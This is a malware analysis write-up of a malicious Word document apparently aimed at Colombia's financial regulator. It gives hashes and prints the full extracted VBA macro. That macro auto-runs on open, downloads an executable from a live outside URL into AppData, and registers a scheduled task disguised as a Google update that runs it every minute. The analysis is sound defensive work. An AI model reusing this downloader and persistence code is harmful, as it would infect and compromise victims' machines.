



sha256 : **380dc1e34c39c41334f69250440554427182c747134bdea1739c31d4b8f1b288**

ITW Filename : **Embargo Bancario.doc**

The document seems to be targeting **Superintendencia Financiera de Colombia**



We can see that there is .mso file with ActiveMIME. Probably containing the VBA that it's downloading and executing the payload.



Normally i would use Cerbero Suite Advanced to extract it and you will get back something like this shown below.



However, this time round, i made this [script](../../Analysis%20Scripts/pyExtract_ActiveMIME_from_MHTML.py)

We should be able to see the VBA from the extracted ActiveMIME
```vb
' module: ThisDocument

Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Option Explicit

Const TASK_ACTION_EXEC = 0
Const TASK_CREATE_OR_UPDATE = &H6&
Const TASK_LOGON_INTERACTIVE_TOKEN = 3
Const TASK_RUNLEVEL_LUA = 0
Const TASK_RUNLEVEL_HIGHEST = 1
Const TASK_TRIGGER_DAILY = 2
Const THREAD_PRIORITY_BELOW_NORMAL As Long = 8

Public Sub fcL4qOb4()
On Error Resume Next
Dim Issqwe6 As String
Dim m43nrukO6XFjm As Object
Dim NoERgwg0 As Date
NoERgwg0 = Now()
Issqwe6 = Replace$(Format$(NoERgwg0, "yyyymmdd-HhNn"), ".", "-")
With CreateObject("Schedule.Service")
.Connect
Set m43nrukO6XFjm = .NewTask(0)
With m43nrukO6XFjm
With .RegistrationInfo
.Description = "Esta tarea detiene el Agente de telemetría de Google, que examina y carga la información sobre el uso y los errores de las soluciones de Google cuando un usuario inicia sesión en el sistema."
.Author = "Google Inc"
End With
With .Principal
.ID = "P" & Issqwe6
.RunLevel = TASK_RUNLEVEL_LUA
End With
With .Settings
.Enabled = True
.StartWhenAvailable = True
.WakeToRun = False
.Priority = THREAD_PRIORITY_BELOW_NORMAL
.DisallowStartIfOnBatteries = False
.RunOnlyIfIdle = False
.StopIfGoingOnBatteries = False
.AllowHardTerminate = True
.Hidden = False
.ExecutionTimeLimit = "PT0S"
.IdleSettings.StopOnIdleEnd = False
End With
With .Triggers.Create(TASK_TRIGGER_DAILY)
.ID = "DAILY"
.StartBoundary = "2015-05-02T06:00:00"
.Enabled = True
.Repetition.Interval = "PT1M"
End With
With .Actions.Create(TASK_ACTION_EXEC)
.Path = Environ("AppData") & "\p.exe" '  AQUI
End With
End With
With .GetFolder("\")
On Error Resume Next
.RegisterTaskDefinition "GoogleUpdate", m43nrukO6XFjm, TASK_CREATE_OR_UPDATE, , , TASK_LOGON_INTERACTIVE_TOKEN
If Err Then
Else
End If
End With
End With
End Sub
Public Sub AukPZZYdNGN()
If "YbSrGzjRToQUjtOcPBd" = "xaHZKOpOaTmjGcA" Then End
End Sub
Public Sub Document_Open()
On Error Resume Next
If 682507832 = 682507832 + 1 Then End
Dim KfsHoGryV As Byte
GoTo WGR
WGR:
Call Main
fcL4qOb4
End Sub
Public Sub uIeRbztQZF()
Dim IRRQUszGlx As Integer
IRRQUszGlx = "2582"
End Sub


' module: Módulo1

Attribute VB_Name = "Módulo1"
Sub Main()
On Error Resume Next
Call ifO7tRe8("http://medicosempresa.com/image/win.jpg", Environ("AppData") & "\p.exe")
End Sub
Public Function uATcQxssrwhovLmlBr()
If "SQynHypCMvvjj" = "SfHbGewIwtnFDaJTa" Then End
End Function
Public Function iyzUQgDlOeKQksiNIIHM()
If "SQynHypCMvvjj" = "SfHbGewIwtnFDaJTa" Then End
Dim CoEHKCbEjT As Currency
CoEHKCbEjT = "1403"
End Function
Function ifO7tRe8(SAS As String, SDE As String) As Long
On Error GoTo 1:
Dim WIIGMumv5k                     As Object
Dim qHKA4mdUzC0               As Object
If 131666564 = 131666564 + 1 Then End
Dim Wck As Double
GoTo qrSbnQ
qrSbnQ:
Set WIIGMumv5k = CreateObject("Microsoft.XMLHTTP")
Set qHKA4mdUzC0 = CreateObject("Adodb.Stream")
If 240525565 = 240525565 + 1 Then End
Dim HJdG As Currency
GoTo OmFeFQKcLi
OmFeFQKcLi:
Call WIIGMumv5k.Open("GET", SAS, 0)
Call WIIGMumv5k.Send
qHKA4mdUzC0.Type = 1
Call qHKA4mdUzC0.Open
Call qHKA4mdUzC0.Write(WIIGMumv5k.responseBody)
Call qHKA4mdUzC0.SaveToFile(SDE, 2)
Call qHKA4mdUzC0.Close
ifO7tRe8 = 1
Exit Function
1:
End Function
Public Sub uFonbMoKQlS()
GoTo omgyvRoMROadsNO
omgyvRoMROadsNO:
End Sub
Public Sub idGVpIcQLrABzEpipThg()
GoTo omgyvRoMROadsNO
omgyvRoMROadsNO:
If "TjbLtvPsxLVqDr" = "EbaBjAnrQr" Then End
End Sub

```
We can see that it's downloading payload from **hxxp://medicosempresa[.]com/image/win.jpg**

sha256 of **hxxp://medicosempresa[.]com/image/win.jpg** is **436611717cf191ce60d159643e082d83dc6d3dae95965e30aa248385c8e3decb**
